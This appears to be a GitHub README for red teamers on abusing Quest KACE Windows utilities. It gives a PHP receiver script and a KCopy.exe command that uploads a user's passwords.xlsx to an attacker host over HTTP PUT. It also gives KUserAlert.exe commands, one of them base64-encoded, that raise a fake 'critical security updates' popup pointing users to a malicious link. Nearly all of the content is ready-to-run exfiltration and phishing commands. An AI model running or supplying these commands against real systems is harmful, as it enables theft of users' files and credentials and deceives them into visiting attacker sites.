 # kace-abuse
Using KACE (Quest) Windows utilities for Red Teaming.

Two examples of abusing KACE command line utilities.  The first example leverages `KCopy.exe` to upload a file to a remote web server through HTTP PUT.  The second example leverages `KUserAlert.exe` to produce a popup alert on the user's desktop, prompting them to click on a malicious link.

**Uploading a file**<br />
Create an upload page on your attacking web server to receive the file.  This example uses PHP `recv_file.php`.

```php
<?php
$fl = fopen('/php_upload_path/recv_file.out', 'w');
$pd = fopen("php://input", "r");
while ($d = fread($pd, 1024))
   fwrite($fl, $d);
fclose($fl);
fclose($pd);
?>
```

Execute the KACE utility to upload a file.

`"C:\Program Files (x86)\Quest\KACE\KCopy.exe" %USERPROFILE%\Documents\passwords.xlsx https://attacker.site/recv_file.php`

![alt text](https://github.com/billchaison/kace-abuse/blob/main/k00.png)

**Creating a popup message**<br />

`"C:\Program Files (x86)\Quest\KACE\KUserAlert.exe" -name="IMPORTANT MESSAGE" -message="Your computer is missing critical security updates.  Click here to install them as soon as possible, https://attacker.site" -title="Mandatory Software Patches Required" -ok`

![alt text](https://github.com/billchaison/kace-abuse/blob/main/k01.png)

![alt text](https://github.com/billchaison/kace-abuse/blob/main/k02.png)

For multi-line messages use base64 encoding between `!ENC!` markers.

`"C:\Program Files (x86)\Quest\KACE\KUserAlert.exe" -name="IMPORTANT MESSAGE" -message=!ENC!WW91ciBjb21wdXRlciBpcyBtaXNzaW5nIGNyaXRpY2FsIHNlY3VyaXR5IHVwZGF0ZXMuCgpDbGljayBoZXJlIHRvIGluc3RhbGwgdGhlbSBhcyBzb29uIGFzIHBvc3NpYmxlLgoKaHR0cHM6Ly9hdHRhY2tlci5zaXRl!ENC! -title="Mandatory Software Patches Required" -ok`

![alt text](https://github.com/billchaison/kace-abuse/blob/main/k03.png)
